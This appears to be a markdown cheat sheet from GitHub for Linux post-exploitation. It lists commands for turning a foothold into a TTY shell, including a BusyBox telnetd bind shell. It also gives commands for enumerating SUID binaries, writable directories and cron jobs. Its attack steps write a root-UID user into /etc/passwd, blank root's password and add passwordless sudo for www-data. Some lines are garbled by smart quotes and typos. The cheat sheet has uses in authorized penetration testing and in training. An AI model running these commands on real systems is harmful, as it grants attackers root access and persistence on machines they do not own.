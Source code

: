 ## Enumeration


After getting intial shell, create TTY shell:

Python:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Bash:
```
echo os.system('/bin/bash')
/bin/sh -i
```

Perl:
```
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

Ruby console:
```
 exec "/bin/sh"
```

Lua console:
```
os.execute('/bin/sh')
```

Vi:
```
:!bash
:set shell=/bin/bash:shell
```
BusyBox:
```
/bin/busybox telnetd -|/bin/sh -p9999
```

Set PATH and TERM if they are missing (also to acsses other bins):

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
``` 

### Manual Enumeration

Check for sudo allowance:

```
sudo su -
sudo -l
```

Is /etc/shadow is world-writable (ls -la /etc/shadow == -rwxrwxrwx) ?

1) Create our password:
```
perl -le ‘print crypt(“Password@973″,”addedsalt”)’
```
2) Append our new user to the /etc/shadow file:

```
echo "hacker:<our_generated_password>:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
```

OR reset root pasword using this trick (may be unstable):

```
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```

Can we add user with no password to /etc/sudoers file?

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

What process are running under root?

```
ps aux | grep root
```

What SUID / GUID binaris are available?

```
#Find SUID
find / -perm -u=s -type f 2>/dev/null

#Find GUID
find / -perm -g=s -type f 2>/dev/null
```

Abusing sudo-rights using SUID/GUIDS or any 3rd-party utility could be found using https://gtfobins.github.io/

Finding world readable/writable directories:

```
 echo "world-writeable folders"; find / -writable -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -222 -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -o w -type d 2>/dev/null; echo "world-executable folders"; find / -perm -o x -type d 2>/dev/null; echo "world-writeable & executable folders"; find / \( -perm -o w -perm -o x \) -type d 2>/dev/null;
```

Check for Environment variables:
```
cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set
```

Check what exported path are availble:

```
export -p
```

Check background process (cronjobs):

```
crontab -l; ls -alh /var/spool/cron; ls -al /etc/ | grep cron; ls -al /etc/cron*; cat /etc/cron*; cat /etc/at.allow; cat /etc/at.deny; cat /etc/cron.allow; cat /etc/cron.deny
```
